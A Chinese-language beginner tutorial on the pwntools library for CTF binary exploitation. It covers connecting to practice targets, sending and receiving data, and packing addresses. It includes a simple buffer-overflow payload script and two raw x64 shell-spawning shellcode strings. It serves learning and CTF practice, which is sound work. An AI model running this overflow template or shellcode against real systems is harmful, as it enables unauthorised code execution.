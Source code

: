 # pwntools入门

参考链接：

[【二进制安全】PWN基础入门大全（非常详细）零基础入门到精通，收藏这一篇就够了-CSDN博客](https://blog.csdn.net/leah126/article/details/140679045)

[Pwn | 快速入门 - NewStar CTF](https://ns.openctf.net/learn/pwn.html)

[超全PWN入门笔记，从栈到堆一步到位 - X0H3M1 - 博客园](https://www.cnblogs.com/X0H3M1/articles/16669128.html)

[你想有多PWN(不再更新)_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1mr4y1Y7fW/?spm_id_from=333.337.search-card.all.click&vd_source=f264368eefdba6c9e52d63931d176453)

[[Pwn之路\] 欢迎来到堆攻击的世界——简单堆溢出原理和例题 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/endpoint/371095.html)

[第二章_第13节_ret2syscall_x1.5_整合_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1mr4y1Y7fW?spm_id_from=333.788.videopod.episodes&vd_source=f264368eefdba6c9e52d63931d176453&p=23)

[PWN 64位程序寄存器的使用-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2277507)





## pwntools的使用

**Pwntools** 是一个用于漏洞利用和二进制分析的 `Python 库`

`pwntools`可以说是pwn手必备的工具，它帮助pwn手`连接远程服务器`，`发送信息`，`接收信息`，以及提供了很多工具来帮助pwn手快速攻克题目



安装：

```
>>> apt-get update
>>> apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
>>> python3 -m pip install --upgrade pip
>>> python3 -m pip install --upgrade pwntools
```



直接cmd里面执行

```
pip install pwntools
```





### 导入pwntools

```py
from pwn import *
```



### 需要分清楚靶机的具体信息，不然无法连接

比如：

```python
context(os='linux', arch='AMD64', log_level='debug')
```



### 连接靶机具体ip和端口号：   nc连接

```python
用于连接远程服务器，并把连接到的进程命名为p，后续的函数都围绕这个p进程展开
p = remote("ip",port) 
比如:p = remote("node5.buuoj.cn",5555)
```



如果用ssh连接，则：

```python
通过使用ssh来连接靶机
p = ssh(host='192.168.xx.xxx', user='xidp', port=6666, password='88888888')
```



### 发送信息：

```python
**************************************************
p.send(payload) # 直接发送payload
**************************************************
p.sendline(payload) # 发送payload，但是结尾会有一个\n
**************************************************
p.sendafter("string", payload) # 接收到 string (这里说的string可以替换成任何信息) 之后会发送payload，但是如果没有接收到string，那么就会导致脚本一直卡在这里不动
**************************************************
p.sendlineafer("string", payload) # 接收到 string 之后会发送payload 并且在payload最后添加\n
```

tips:

如果函数是`gets()`和`scanf()`这类函数它们会以`\n`作为结束符号，这时候就需要我们手动发送`\n` 不然函数无法结束，这时候就需要使用`p.sendline(payload) ` 



如果函数是`read()` 这类的函数，使用`p.sendline`和`p.send`都可以,但是需要区分不同情况





### 接受信息：

```python
p.recv(int) 利用recv来接收返回的数据，并且可以控制接受到的字节数
比如:p.recv(7) => 系统输出'hello world' => 我们会接受到'hello w' 

p.recvline('string') 设置一个标识符，接收标识符所在的那一行
比如:p.recvline('O.o')
#系统输出:
Hello World 
This is a test. 
O.o This is the target line. 
Goodbye.
#我们接收:
O.o This is the target line. 
**************************************************
p.recvlines(N) 接收 N 行输出
**************************************************
p.recvuntil('string') 可以指定接收到某一字符串的时候停止 ,还有第二个参数 drop，drop=True(默认为false) 表示丢弃设定的停止符号
比如:p.recvuntil('or') 
#系统输出:
hello world 
#我们接收:
hello wor  
比如:a = io.recvuntil(']', drop=True)
就是一直获取到`]`符号出现就停止，并且不接收`]`符号
**************************************************
```



只有信息多才需要使用这个



### 构造发送地址类型

#### `p64/p32/u64/u32`这类函数的作用:

```python
**************************************************
p64(int) 
p64(0xfaceb00c) => '\x0c\xb0\xce\xfa\x00\x00\x00\x00\x00'
**************************************************
u64(str) 
u64('\x0c\xb0\xce\xfa\x00\x00\x00\x00') =>0xfaceb00c
**************************************************
p32(int)  
p32(0xfaceb00c) => '\x0c\xb0\xce\xfa'
**************************************************
u32(str) 
u32('\x0c\xb0\xce\xfa') => 0xfaceb00c
**************************************************

```







### 传递到终端

```python
p.interactive()
接受信息并且在终端操作，程序拿到shell
```





### 一个最基本的payload如下：

```python
from pwn  import *
import pwnlib
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')

if __name__ == '__main__':
	
	HOST = 'node4.buuoj.cn'
	PORT = 29105
	conn = remote(HOST ,PORT)
	payload = "A"*0x17 + p64(0x40118A)
	conn.sendline(payload)
	conn.interactive()
```



### 汇编与反汇编



```python
>>> asm('mov eax, 0')   #汇编
'\xb8\x00\x00\x00\x00'

>>> disasm('\xb8\x0b\x00\x00\x00')  #反汇编
'mov    eax,0xb'
```



### shellcode

```python
context(os='linux', arch='i386')
# 表示将当前执行上下文的体系结构设置为i386(这里的i386可以通过checksec来查看文件是什么架构的  
shellcode = asm(shellcraft.sh())
# asm()是把括号内的内容编译成机器码(只有机器码才可以执行)，一般用来打入后门。pwntools自带的后门函数，可以生成类似system('/bin/sh/')这样功能的汇编代码 
# 通常可以配合  .ljust() 来使用  
shellcode.ljust(112, b'A')  
# 这里的 .ljust() 是 Python 中字符串对象的方法，用于在字符串的右侧填充指定的字符，使字符串达到指定的长度。

```



```python
from pwn import *
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
shellcode.ljust(112, b'A')  
```



如果不用库自带的shellcode，可以有一些编译好的shellcode



64位Linux的24Byte的ShellCode：

```
shellcode_x64 ="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
```



64位Linux的23Byte的shellcode：

```
shellcode_x64 ="\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
```







### 报错问题：

#### 1.使用p64()时报错：TypeError: can only concatenate str (not “bytes“) to str

```python
p64(0x00400596).decode('unicode_escape')
```







# 重点基础知识

1. 













